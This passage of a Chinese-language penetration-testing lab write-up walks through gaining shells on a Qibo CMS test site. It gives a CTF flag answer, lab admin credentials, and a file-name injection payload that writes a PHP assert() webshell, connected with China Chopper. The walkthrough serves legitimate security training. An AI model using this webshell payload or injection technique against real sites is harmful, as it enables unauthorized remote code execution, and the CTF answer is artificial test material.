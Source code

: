![channel](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/channel.png)

点击 **提交** 后，可在 **频道管理页** 中看到所添加的频道页，接下来一定要点击 **静态化** 按钮，才能正常访问 `http://www.test.ichunqiu/sqli.php`，否则只会弹出 404 页面：

![staticize](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/staticize.png)

在确认能够正常 `sqli.php` 页面后，准备 **添加SHELL** 进行菜刀连接：

![chopper_sqli](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/chopper_sqli.png)

成功连接后，在管理员桌面上看到了 flag 文件：

![flag_sqli](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/flag_sqli.png)

打开 flag 文件即可获得 `key{636bb37e}`，因此第 2 题答案就是 `636bb37e`：

![flag](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/flag.png)

## 前台栏目投稿自定义文件名写入木马

第二个漏洞是在前台栏目投稿设置信息中的 **自定义文件名** 输入框内触发，因此需要“自定义内容页文件名”的权限，不过我们已经有了管理员权限，故不必担心此问题。详情可参考：

> [齐博CMS某处任意文件写入getshell（需要一定权限）](https://www.secpulse.com/archives/30557.html)

首先用账号 `admin` 与密码 `whoami!@#123` 在前台登录，并点击 **！我要投稿**：

![login_front](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/login_front.png)

任选一栏目，在 **我要投稿** 处点击 **发表**（此处以**社会新闻**栏目为例）：

![contribute_select](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/contribute_select.png)

先在 **其他设置** 标签页下的 **自定义文件名** 输入框中写入木马 `x';@assert($_POST['cmd']);//y.htm`：

![contribute_setting](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/contribute_setting.png)

其中 `x';`是为了闭合代码中的左单引号，`//y.htm` 是为了使整体文件名有静态网页的后缀，并且注释掉后面的代码。注意此处不能用 `eval()` 函数构造木马，与前文一样会被过滤。

再回到 **基本信息** 标签页下，将带 `(*)` 的必填信息填好后提交：

![contribute_info](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/contribute_info.png)

提交后访问 `http://www.test.ichunqiu/data/showhtmltype.php`，成功看到报错信息：

![contribute_error](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/contribute_error.png)

接下来 **添加SHELL** 进行菜刀连接：

![chopper_showhtmltype](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/chopper_showhtmltype.png)

成功连接后，可在 `/data/showhtmltype.php` 源码中看到所添加的木马，印证了漏洞的存在：

![contribute_source](https://blog-1255335783.cos.ap-guangzhou.myqcloud.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E7%AC%94%E8%AE%B0/contribute_source.png)
